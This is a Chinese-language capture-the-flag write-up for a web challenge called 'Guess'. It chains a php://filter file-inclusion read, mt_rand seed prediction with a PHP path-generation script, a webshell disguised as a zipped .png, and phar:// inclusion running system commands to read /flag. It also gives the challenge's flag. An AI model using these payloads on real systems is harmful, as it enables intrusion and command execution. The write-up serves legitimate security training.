 # Guess

## 思路分析

> 打开地址,提示上传一个文件,猜测此处存在文件上传漏洞,试过多次,发现有严格的过滤,无法直接上传木马文件,这时发现一个可疑的url,猜测这里存在文件包含漏洞,构造payload尝试

```
http://61.147.171.105:52364/?page=php://filter/convert.base64-encode/resource=upload
```

> 果然获得了upload.php的源码,从源码中看到,对文件的后缀做了很严格的过滤,想要获得shell,只能通过文件包含了,还有一个问题是文件路径是用的随机字符生成的,但因其采⽤了不安全的随机数函数mt_rand,导致其随机数可以预测.拿到cookie中的随机数,进⽽爆破得到随机数种⼦.然后通过该种⼦⽣成相同序列
的随机数即可.

> 将一句话木马写到php文件后进行zip压缩,再将zip后缀改成png.上传这个文件得到一个SESSI0N,进行md5碰撞,somd5找到明文

> 利用php_mt_seed工具进行种子破解,得到种子,生成exp,将PHP 5.2.1 to 7.0.x的种子写入到array中,得到上传图片的路径（运行环境必须为PHP 5.2.1 to 7.0.x,否则会导致生成的随机数不同）

```
<?php
$arr = array(254751340,1212538042,2221082864,2810007159);  
foreach($arr as $a) {
    mt_srand($a);
    $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
                 "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
                 "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
                 "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
                 "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
    $str = '';
    $ss = mt_rand();  // 这一步必须加上,否则与服务器端的随机值对应不上
    for ($i = 1; $i <= 32; ++$i) {
        $ch = mt_rand(0, count($set) - 1);
        $str .= $set[$ch];
    }

	echo  'http://61.147.171.105:52364/uP1O4Ds/' . $str . '_test.png' ."\n\r";

}
?>
```

> 逐个验证生成的url,得到上传图片路径为http://61.147.171.105:52364/uP1O4Ds/Tr5WO5tH9bNkRXtuyWXKFqkDZQqbUari_test.png

11.通过phar协议,访问之前传入的shell,得到目录文件列表,exp如下

```
/?page=phar://uP1O4Ds/Tr5WO5tH9bNkRXtuyWXKFqkDZQqbUari_test.png/test&a=echo%20system(%27ls%27);
```

> 修改exp,得到flag

```
http://61.147.171.105:52364/?page=phar://uP1O4Ds/Tr5WO5tH9bNkRXtuyWXKFqkDZQqbUari_test.png/test&a=echo%20system(%27cat%20/flag%27);
```

## flag

> cyberpeace{a530d6979c8c032d73a7d040a2b28d46}

## 参考

> https://www.openwall.com/php_mt_seed/
